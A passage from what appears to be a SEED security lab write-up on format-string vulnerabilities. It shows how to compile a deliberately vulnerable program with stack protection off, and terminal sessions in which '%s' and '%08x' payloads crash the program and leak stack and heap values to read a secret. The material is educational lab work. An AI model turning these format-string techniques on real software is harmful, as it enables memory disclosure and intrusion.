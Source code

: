 ```c
  return 0;
}
```

(ps: compiler the program without stack protect.)

```sh
gcc -z execstack -fno-stack-protector -o vul_prog vul_prog.c 
```

Hints: From the printout, you will find out that `secret[0]` and `secret[1]` are located on the heap, i.e., the actual secrets are stored on the heap. We also know that the address of the first secret (i.e., the value of the variable `secret`) can be found on the stack, because the variable `secret` is allocated on the stack. In other words, if you want to overwrite `secret[0]`, its address is already on the stack; your format string can take advantage of this information. However, although `secret[1]` is just right after `secret[0]`, its address is not available on the stack. This poses a major challenge for your format-string exploit, which needs to have the exact address right on the stack in order to read or write to that address.

Solution:
Crash the program:

```sh
seed@ubuntu:~$ ./vul_prog 
The variable secret's address is 0xbfecab28 (on stack)
The variable secret's value is 0x 8ec1008 (on heap)
secret[0]'s address is 0x 8ec1008 (on heap)
secret[1]'s address is 0x 8ec100c (on heap)
Please enter a decimal integer
1
Please enter a string
%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s
Segmentation fault (core dumped)
```

Print out the `secret[1]` value:

```sh
seed@ubuntu:~$ ./vul_prog 
The variable secret's address is 0xbfc1a3f0 (on stack)
The variable secret's value is 0x 9fec008 (on heap)
secret[0]'s address is 0x 9fec008 (on heap)
secret[1]'s address is 0x 9fec00c (on heap)
Please enter a decimal integer
1
Please enter a string
%08x/%08x/%08x/%08x/%08x/%08x/%08x/%08x/%08x/%08x/%08x/%08x/%08x/ 
bfc1a3f8/00000001/b765f309/bfc1a41f/bfc1a41e/00000000/bfc1a504/09fec008/00000001/78383025/3830252f/30252f78/252f7838/
The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x55
```

```sh
seed@ubuntu:~$ ./vul_prog 
The variable secret's address is 0xbf984a90 (on stack)
The variable secret's value is 0x 915c008 (on heap)
secret[0]'s address is 0x 915c008 (on heap)
secret[1]'s address is 0x 915c00c (on heap)
Please enter a decimal integer
152420364
Please enter a string
%08x/%08x/%08x/%08x/%08x/%08x/%08x/%08x/%s
bf984a98/00000001/b767d309/bf984abf/bf984abe/00000000/bf984ba4/0915c008/U
The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x55
```
